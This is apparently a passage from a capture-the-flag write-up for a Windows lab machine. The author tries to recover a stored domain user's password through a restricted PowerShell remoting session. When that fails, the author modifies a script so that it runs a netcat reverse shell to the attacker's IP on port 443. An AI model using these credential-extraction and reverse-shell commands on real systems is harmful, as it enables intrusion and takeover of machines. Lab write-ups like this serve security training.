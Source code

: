     
    PS C:\Utils> Invoke-Command -ScriptBlock { $securepasswd = '01000000d08c9ddf0115d1118c7a00c04fc297eb0100000096ed5ae76bd0da4c825bdd9f24083e5c
    0000000002000000000003660000c00000001000000080f704e251793f5d4f903c7158c8213d0000000004800000a000000010000000ac2606ccfda6b4e0a9d56a20417d2f67280000009497141b794c6cb963d2460bd96ddcea35b25ff248a53af0924572cd3ee91a28dba01e062ef1c026140000000f66f5cec1b264411d8a263a2ca854bc6e453c51'; $passwd = $securepasswd | ConvertTo-SecureString; $creds = New-Object System.Management.Automation.PSCredential ("acute\jmorgan", $passwd); $creds.GetNetworkCredential().Password } -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred
    The term 'ConvertTo-SecureString' is not recognized as the name of a cmdlet, function, script file, or operable 
    program. Check the spelling of the name, or if a path was included, verify that the path is correct and try again.
        + CategoryInfo          : ObjectNotFound: (ConvertTo-SecureString:String) [], CommandNotFoundException
        + FullyQualifiedErrorId : CommandNotFoundException
        + PSComputerName        : ATSSERVER
      
    The term 'New-Object' is not recognized as the name of a cmdlet, function, script file, or operable program. Check the 
    spelling of the name, or if a path was included, verify that the path is correct and try again.
        + CategoryInfo          : ObjectNotFound: (New-Object:String) [], CommandNotFoundException                                                                                                                     
        + FullyQualifiedErrorId : CommandNotFoundException                                              
        + PSComputerName        : ATSSERVER
                           
    You cannot call a method on a null-valued expression.
        + CategoryInfo          : InvalidOperation: (:) [], RuntimeException
        + FullyQualifiedErrorId : InvokeMethodOnNull
        + PSComputerName        : ATSSERVER
    

Because `ConvertTo-SecureString` isn’t defined in this profile, I can’t run
it. It is interesting to note that I was able to run it from within a script.

#### Modify Script

I’ve got access to `Get-Content` (`cat`) and `Set-Content` (`sc`), so I can
relatively easily create a new script. I could have it call `r.exe` again
(since I’m executing on the same box I’m already on), but I don’t want to drop
out of my PowerShell session to start a new listener. I’ll upload `nc64.exe`
to `C:\utils` and have the script call that:

    
    
    PS C:\Utils> Invoke-Command -ScriptBlock { ((cat ..\desktop\wm.ps1 -Raw) -replace 'Get-Volume', 'C:\utils\nc64.exe -e cmd 10.10.14.6 443') | sc -Path ..\desktop\wm.ps1 } -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred
    

Now the script creates a reverse shell to me:

    
    
    PS C:\Utils> Invoke-Command -ScriptBlock { cat ..\desktop\wm.ps1 } -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred
    $securepasswd = '01000000d08c9ddf0115d1118c7a00c04fc297eb0100000096ed5ae76bd0da4c825bdd9f24083e5c0000000002000000000003660000c00000001000000080f704e251793f5d4f903c7158c8213d0000000004800000a000000010000000ac2606ccfda6b4e0a9d56a20417d2f67280000009497141b794c6cb963d2460bd96ddcea35b25ff248a53af0924572cd3ee91a28dba01e062ef1c026140000000f66f5cec1b264411d8a263a2ca854bc6e453c51'
    $passwd = $securepasswd | ConvertTo-SecureString
    $creds = New-Object System.Management.Automation.PSCredential ("acute\jmorgan", $passwd)
    Invoke-Command -ScriptBlock {C:\utils\nc64.exe -e cmd 10.10.14.6 443} -ComputerName Acute-PC01 -Credential $creds
    